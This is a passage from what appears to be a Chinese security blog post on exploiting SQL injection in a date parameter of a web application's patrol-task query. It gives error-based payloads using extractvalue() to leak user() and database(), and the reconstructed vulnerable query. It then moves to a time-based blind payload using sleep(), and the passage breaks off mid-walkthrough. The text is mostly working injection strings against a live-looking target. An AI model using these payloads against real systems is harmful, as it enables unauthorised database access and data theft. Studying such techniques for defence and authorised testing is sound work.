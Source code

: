 于是我构造了  

```
2025-06-19 00:00:00') and extractvalue(1,concat(0x0a,(select user()),0x0a))#
```

  
  
但是没成功，后来又想到了date_format()是有两个参数的，于是又构造了  

```
2025-06-19 00:00:00','%Y-%m-%d %H:%M:%S') and extractvalue(1,concat(0x0a,(select user()),0x0a))#
```

  
  
但还是不对，直接本地调试一下吧  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpqibQgKhLxYyA07sCeF0kBA5yCP8Iaia4Iiafpqb6BWNa8OV9yxOeO2O2Pg/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
把完整的语句放进来，然后进行调试，删除不必要的东西。  
  

```
#SELECT COUNT(1) FROM ( SELECT ss FROM patrol_task AS t JOIN sys_user AS u WHERE date_format ( t.start_time,'%Y-%m-%d %H:%M:%S') >= date_format('2025-06-11 00:00:0011111111111','%Y-%m-%d %H:%M:%S') and extractvalue(0x0a,concat(0x0a,database())))TOTAL# AND date_format (t.end_time,'%Y-%m-%d %H:%M:%S') <= date_format('2025-07-21 23:59:59','%Y-%m-%d %H:%M:%S') ORDER BY t.create_date DESC ) TOTAL
```

  
  
最后可以精简到差不多这样，后来经过本地调试之后，发现存在一个问题  
  

```
SELECT COUNT(1) FROM ( select username FROM admin AS t JOIN news AS u WHERE 1=1 and extractvalue(0x0a,concat(0x0a,database())))TOTAL#
```

  
  
这样是可以报错出结果的：  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/XoIcX2HtlUAH1m5FBRwSYBjAbhmpROpq9icPaRfxh7kibbgpWPwMcwj4yMVkic1MvJQFHVfkxIKpat0Suib8V61jIQ/640?wx_fmt=png&from=appmsg&watermark=1&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
也就是说，按理说我闭合后拼接  

```
and extractvalue(0x0a,concat(0x0a,database())))total#
```

  
  
是可以爆出内容的  
  
但是网站就是无法报错，然后观察网站报错信息，发现并不是数据库的那种报错，感觉是网站框架，自定义的报错，可能压根就不会返回报错信息，于是我们尝试使用时间盲注  
  
正常来说我们闭合之后会拼接
```
if(ascii(substr(user(),1,1))>1,sleep(6),0)
```

  
  
我们继续在本地调试：  
  